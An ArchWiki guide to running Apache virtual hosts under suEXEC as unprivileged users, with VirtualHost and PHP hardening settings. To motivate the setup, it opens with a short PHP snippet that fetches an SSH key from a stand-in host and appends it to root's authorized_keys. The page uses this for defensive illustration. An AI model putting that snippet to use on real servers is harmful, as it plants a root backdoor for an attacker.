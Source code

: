 Apache, suEXEC and Virtual Hosts
================================

  
 This document describes how to use Apache's suEXEC module in order to
have virtual hosts running as a unprivileged user. Generally it's good
practice not to let any kind of webspace have superuser privileges like
this rather brutal PHP example shows:

       <?php
         # of course this link doesn't lead anywhere
         $rsa_key = file('http://yourhost.homeip.net/id_rsa.pub');
         exec("cat ${rsa_key[[0]]} >>/root/.ssh/authorized_keys");
       ?>

You get the point, do you? To prevent this, never let any virtual host
have write access anywhere but in its own home directory or
DocumentRoot. Unfortunately this method requires Apache to run as
superuser in order to be able to become another user but it's not a big
deal since you do not need to run in the default DocumentRoot as
superuser too.

You should also consider using suEXEC if you intend to have several FTP
accounts pointing to those webspaces which need write permissions while
the files still can be read by Apache.

Beware, though, that it is a security risk when the webserver can write
to the php files, like when you have an FTP user website1 and the site
runs as website1 as well. Code is often injected in PHP files such
cases. It is far too common for self-upgradable or installable PHP
software to require this permission model, without informing the user of
the risk.

Contents
--------

-   1 Prerequisites
-   2 Adding the suEXEC module to Apache
-   3 Setting up a virtual Host to use suEXEC
-   4 "Disabling" default DocumentRoot
-   5 Finishing up
-   6 References

Prerequisites
-------------

-   you should be familiar with basic configuration of Apache
    -   especially virtual hosts
-   superuser access to the target box
-   knowledge about adding users
-   can work with pacman

Adding the suEXEC module to Apache
----------------------------------

-   load the suEXEC module in /etc/httpd/conf/httpd.conf like this:

    LoadModule suexec_module        lib/apache/mod_suexec.so

-   make sure Apache's default DocumentRoot does not run as superuser
    either!

    User http
    Group http

Setting up a virtual Host to use suEXEC
---------------------------------------

One way to do it is directly in /etc/httpd/conf/httpd.conf but I suggest
to use a separate file if you intend to create more than just a couple
of virtual hosts. Either way, a virtual host that is supposed to use
suEXEC may look something like this:

    <VirtualHost 192.168.0.1:80>
            ServerName myhost
            ServerAlias  myhost.localdomain
            # this is where requests for / go
            DocumentRoot /home/www/vhosts/myhost.localdomain/htdocs

            # here you tell which user (myhost) and group (ftponly) Apache should use
            SuexecUserGroup myhost ftponly

            # the following are optional but might be of use for you
            ScriptAlias /cgi-bin/ /home/www/vhosts/myhost.localdomain/htdocs/cgi-bin
            php_admin_value open_basedir /home/www/vhosts/myhost.localdomain/htdocs
            php_admin_value upload_tmp_dir  /home/www/vhosts/myhost.localdomain/tmp
            # Safe mode will be removed as of PHP 6. You may want to not enable it.
            php_admin_flag safe_mode On
            ErrorDocument 404 /home/www/vhosts/myhost.localdomain
            <Directory "/home/www/vhosts/myhost.localdomain/htdocs">
                    AllowOverride None
                    Order allow,deny
                    Allow from all
                    Options +SymlinksIfOwnerMatch +Includes
            </Directory>
    </VirtualHost>

Note that we set upload_tmp_dir to a folder that is outside the document
root of your web site (not
/home/www/vhosts/myhost.localdomain/htdocs/tmp). It should also be not
readable or writable by any other system users. This is for security
reasons: this way it cannot be modified or overwritten while PHP is
processing it.

"Disabling" default DocumentRoot
--------------------------------

To further harden your setup you can disable the default DocumentRoot in
order to not have Apache execute anything as the superuser itself runs
as. This procedure does not really disable it, rather points it
somewhere where it's not remotely accessible anymore. It can be easily
achieved by replacing your default ServerName with the following:

    ServerName localhost:80

Finishing up
------------

Every time you change default configuration parameters you need to
restart httpd (Apache) to make them take effect.

References
----------

-   more in depth information about suEXEC:
    http://httpd.apache.org/docs/suexec.html
-   same about VirtualHosts:
    http://httpd.apache.org/docs/vhosts/index.html

Retrieved from
"https://wiki.archlinux.org/index.php?title=Apache,_suEXEC_and_Virtual_Hosts&oldid=286347"

Category:

-   Web Server

-   This page was last modified on 5 December 2013, at 12:21.
-   Content is available under GNU Free Documentation License 1.3 or
    later unless otherwise noted.
-   Privacy policy
-   About ArchWiki
-   Disclaimers
